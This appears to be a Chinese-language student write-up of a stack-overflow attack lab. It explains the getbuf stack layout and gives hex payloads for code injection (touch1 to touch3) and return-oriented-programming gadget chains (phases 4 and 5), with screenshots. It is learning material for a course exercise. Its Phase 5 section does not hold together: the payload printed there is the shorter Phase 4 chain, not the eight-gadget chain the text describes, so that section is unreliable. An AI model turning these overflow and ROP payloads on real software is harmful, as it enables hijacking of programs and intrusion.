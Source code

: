 # **getbuf**

+ 分析代码得到栈帧布局

```plaintext
高地址
|---------------------|
| 上一栈帧的 ebp       |  ← 被覆盖风险
|---------------------|
| 返回地址 (retq)      |  ← 被覆盖风险
|---------------------|
| 40 字节缓冲区        |  ← Gets 函数写入位置
|                     |
|                     |
|---------------------|  ← rsp 栈顶
低地址
```

- **缓冲区溢出**：`Gets` 函数不检查输入长度，若输入超过 **40 字节**，会覆盖返回地址，导致程序跳转到攻击者指定的位置执行任意代码。
- 返回地址位于缓冲区后8 字节，因此需要构造：
  + 40 字节填充数据（覆盖缓冲区）。
  + 8 字节目标地址（覆盖返回地址）

# touch1

```cpp
00000000004017c0 <touch1>:
4017d3:	e8 e8 f4 ff ff       	callq  400cc0 <puts@plt>  ; 打印成功信息
```

+ 就是只要执行这个函数即可通关，就是覆盖返回地址为touch1的地址

![屏幕截图 2025-06-11 171803](https://cdn.jsdelivr.net/gh/liyu6688/images@main/%E5%B1%8F%E5%B9%95%E6%88%AA%E5%9B%BE%202025-06-11%20171803.png)

# touch2

```cpp
4017fc:	3b 3d e2 2c 20 00    	cmp    0x202ce2(%rip),%edi  ; 比较 edi 和0x202ce2(%rip)
```

+ 计算   %rip = 0x4017fc + 6 = 0x401802   0x401802 + 0x202ce2 = 0x6044e4
+ 就是要让edi和他相等

### 思路

+ 断点打到getbuff，查rsp得到getbuf的开始位置，
+ 然后修改代码给rdi赋值和跳转到touch2 指令，
+ 覆盖返回地址是getbuf的地址让他执行我修改的代码

### 过程和结果

![屏幕截图 2025-06-12 160628](https://cdn.jsdelivr.net/gh/liyu6688/images@main/%E5%B1%8F%E5%B9%95%E6%88%AA%E5%9B%BE%202025-06-12%20160628.png)

![屏幕截图 2025-06-12 145227](https://cdn.jsdelivr.net/gh/liyu6688/images@main/%E5%B1%8F%E5%B9%95%E6%88%AA%E5%9B%BE%202025-06-12%20145227.png)

![屏幕截图 2025-06-11 215640](https://cdn.jsdelivr.net/gh/liyu6688/images@main/%E5%B1%8F%E5%B9%95%E6%88%AA%E5%9B%BE%202025-06-11%20215640.png)

![屏幕截图 2025-06-11 215652](./../../c%E7%9B%98%E7%A7%BB%E8%BF%87%E6%9D%A5%E7%9A%84/%E5%9B%BE%E7%89%87/Screenshots/%E5%B1%8F%E5%B9%95%E6%88%AA%E5%9B%BE%202025-06-11%20215652.png)

# touch3

+ hexmatch(cookie,sval)==1后才能进入validate(3)
  而hexmatch函数的作用为将cookie转成字符串并和sval比较，如果相等则返回1，说明除了需进入touch3函数外，*sval必须等于cookie的字符串形式



+ 查看汇编代码

![屏幕截图 2025-06-12 164239](https://cdn.jsdelivr.net/gh/liyu6688/images@main/%E5%B1%8F%E5%B9%95%E6%88%AA%E5%9B%BE%202025-06-12%20164239.png)

+ %rsi（函数第二个参数）为char* sval，%edi为cookie，而877行将%rdi转入%rsi，说明初始状态下%rdi中存放着char* sval，即%rdi需要修改
  所以需要在buffer中注入代码，而为了运行注入的代码，同Phase 2 一样需要跳转回栈顶地址0x5561dc78



+ 注意到hexmatch函数中将%r12，%rbp，%rbx入栈，而这样会造成栈中原来输入的内容的覆盖，将数据放在getbuf的栈空间里面，很有可能就被这两个函数cover了。所以要把数据放到一个相对安全的栈空间里，选择放在父帧即test的栈空间里。gdb看一下test栈空间地址

  ![屏幕截图 2025-06-12 164625](https://cdn.jsdelivr.net/gh/liyu6688/images@main/%E5%B1%8F%E5%B9%95%E6%88%AA%E5%9B%BE%202025-06-12%20164625.png)

### 构造payload

![屏幕截图 2025-06-12 164754](https://cdn.jsdelivr.net/gh/liyu6688/images@main/%E5%B1%8F%E5%B9%95%E6%88%AA%E5%9B%BE%202025-06-12%20164754.png)

根据ASCII cookie是 35 39 62 39 39 37 66 61 00

+ ```
  48 c7 c7 a8 dc 61 55 68
  fa 18 40 00 c3 00 00 00
  00 00 00 00 00 00 00 00
  00 00 00 00 00 00 00 00
  00 00 00 00 00 00 00 00
  78 dc 61 55 00 00 00 00
  35 39 62 39 39 37 66 61
  00
  ```

![屏幕截图 2025-06-12 165153](https://cdn.jsdelivr.net/gh/liyu6688/images@main/%E5%B1%8F%E5%B9%95%E6%88%AA%E5%9B%BE%202025-06-12%20165153.png)

# Phase 4

在ROP攻击中设置了栈随机化，所以我们不能像前面三个一样定位到精确地址插入代码

+ 将cookie放到%rdi，把touch2的地址放到栈中，以ret执行
+ 猜测是需要一个mov命令来放参数，另外一个结合提示就是pop命令了，pop会把栈顶的cookie弹出到另外一个寄存器，再用mov命令写到%rdi里。
+ 查询farm可知pop %rax+ret可以用两种gadget表示
+ 而pop的内容（0x59b997fa）应该放在pop+retq指令之后，此时pop指令会将pop后对应位置的元素pop进对应的寄存器中
+ 而touch2函数地址（0x4017ec）应该放在movq+retq指令之后，当ret指令运行完毕后之后的地址会充当返回地址进入touch2函数

### 构造payload

![屏幕截图 2025-06-12 171508](https://cdn.jsdelivr.net/gh/liyu6688/images@main/%E5%B1%8F%E5%B9%95%E6%88%AA%E5%9B%BE%202025-06-12%20171508.png)

![屏幕截图 2025-06-24 122033](https://cdn.jsdelivr.net/gh/liyu6688/images@main/%E5%B1%8F%E5%B9%95%E6%88%AA%E5%9B%BE%202025-06-24%20122033.png)

# Phase 5

+ 该阶段要实现的效果和Phase 3一样，所以同样需要将%rdi内容修改为cookie字符串对应地址并跳到touch3函数

+ 由于每次栈都是随机开辟，存入字符串的地址并不固定，所以不能直接把地址赋值给%rdi，而需要通过读取栈顶地址%rsp加上一定的偏移量来获得字符串地址

+ movl指令以寄存器作为目的时，会把该寄存器的高位4字节设置为0，即会损失高四字节的值。而栈顶地址经过gdb断点测试，都至少大于0x7ffffff00000：

+ 所以ROP整体思路为：
  1.将偏移量pop入%rax中
  2.movl指令将偏移量以该顺序：%eax->%edx->%ecx->%esi移入%rsi中
  3.movq指令将栈指针以该顺序：%rsp->%rax->%rdi移入%rdi中
  4.lea指令计算字符串地址
  5.计算结果%rax赋值给%rdi
  6.调用touch3

+ 所以汇编

+ ```
  pop %rax
  retq
  movl 		%eax,%edx
  retq
  movl		%edx,%ecx
  retq
  movl 		%ecx,%esi
  retq
  movq 		%rsp,%rax
  retq
  movq 		%rax,%rdi
  retq
  lea 		(%rdi,%rsi,1),%rax
  retq
  movq		%rax,%rdi
  retq
  ```

+ 构造payload

  ```
  00 00 00 00 00 00 00 00
  00 00 00 00 00 00 00 00
  00 00 00 00 00 00 00 00
  00 00 00 00 00 00 00 00	
  00 00 00 00 00 00 00 00
  cc 19 40 00 00 00 00 00
  fa 97 b9 59 00 00 00 00
  c5 19 40 00 00 00 00 00
  ec 17 40 00 00 00 00 00
  ```

  ![屏幕截图 2025-06-24 121647](https://cdn.jsdelivr.net/gh/liyu6688/images@main/%E5%B1%8F%E5%B9%95%E6%88%AA%E5%9B%BE%202025-06-24%20121647.png)

